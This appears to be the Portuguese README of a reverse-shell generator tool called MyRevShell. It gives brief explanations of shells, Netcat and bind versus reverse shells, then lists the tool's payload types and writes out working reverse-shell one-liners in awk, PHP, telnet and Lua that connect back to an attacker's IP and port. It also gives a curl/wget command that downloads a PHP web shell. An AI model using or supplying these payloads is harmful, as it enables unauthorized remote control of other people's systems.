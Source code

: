 # O que é uma Shell?
> - Shell é um programa com a função de fornecer uma interface para que os usuários de um sistema operacional tenham acesso aos serviços do kernel.
> - Em geral, os shells do sistema operacional usam uma interface de linha de comando (CLI) ou uma interface gráfica do usuário (GUI).
> - É chamado de shell porque é a camada mais externa ao redor do sistema operacional.
> #### More information: [Wikipedia-Shell](https://en.wikipedia.org/wiki/Shell_%28computing%29)
---

# O que é o Netcat?
> - Considerado o canivete suíço TCP/IP, o Netcat é uma ferramenta de rede usada para ler e escrever dados na rede usando os protocolos TCP ou UDP.
> ### Tipos:
> - [Ncat](https://nmap.org/ncat/)
> - [The GNU Netcat](https://netcat.sourceforge.net/)
> - [Netcat Tradicional](https://packages.debian.org/sid/netcat-traditional)
> - [Netcat OpenBSD](https://packages.debian.org/sid/netcat-openbsd)
> - [Netcat6](http://www.deepspace6.net/projects/netcat6.html)
> - [Socat](http://www.dest-unreach.org/socat/)
> #### More information: [Wikipedia-Netcat](https://en.wikipedia.org/wiki/Netcat)
---

# Reverse Shell e Bind Shell
> ### Bind Shell: 
> - Têm o ouvinte em execução no destino e o invasor se conecta ao ouvinte para obter um shell remoto. 
> - O invasor deve saber o endereço IP da vítima antes de iniciar o Bind Shell. 
> - Às vezes, o Bind Shell falha, porque os firewalls modernos não permitem que pessoas de fora se conectem a portas abertas. 
> ### Reverse Shell:
> - Têm o ouvinte em execução no invasor e o alvo se conecta ao invasor com um shell. 
> - O invasor não precisa saber o endereço IP da vítima, porque o invasor se conectará à nossa porta aberta. 
> - O Shell Reverso pode contornar os problemas do firewall porque a máquina de destino tenta se conectar ao invasor, de modo que o firewall não se incomoda em verificar os pacotes. 
---

# MyRevShell
> O script possui 16 opções de gerador de shell + 1 opção de base64 encode
> ### Tipos:
> - "sh"
> - "zsh"
> - "bash"
> - "nc -c"
> - "nc -e"
> - "nc.exe -e"
> - "nc mkfifo"
> - "ncat -e"
> - "ncat.exe -e"
> - "python x1"
> - "python x2"
> - "python3 x1"
> - "python3 x2"
> - "python3 shortest"
> - "socat x1"
> - "socat x2"
> #### Extra:
> - Awk Shell:
> ``` 
> awk 'BEGIN {s = "/inet/tcp/0/#ip/#port"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } > } while(c != "exit") close(s); }}' /dev/null
> ```
> - PHP exec: 
> ```
> php -r '$sock=fsockopen("#ip",#port);exec("bash <&3 >&3 2>&3");'
> ```
> - Telnet:
> ```
> TF=$(mktemp -u);mkfifo $TF && telnet #ip #port 0<$TF | bash 1>$TF
> ```
> - Lua:
> ```
> lua -e "require('socket');require('os');t=socket.tcp();t:connect('#ip','#port');os.execute('bash -i <&3 >&3 2>&3');"
> ```
> ### Web Shell: 
> Download: 
> - **Curl/Wget: `curl/wget https://raw.githubusercontent.com/h0ru/My-Shell/main/shell.php -O shell.php`**
---
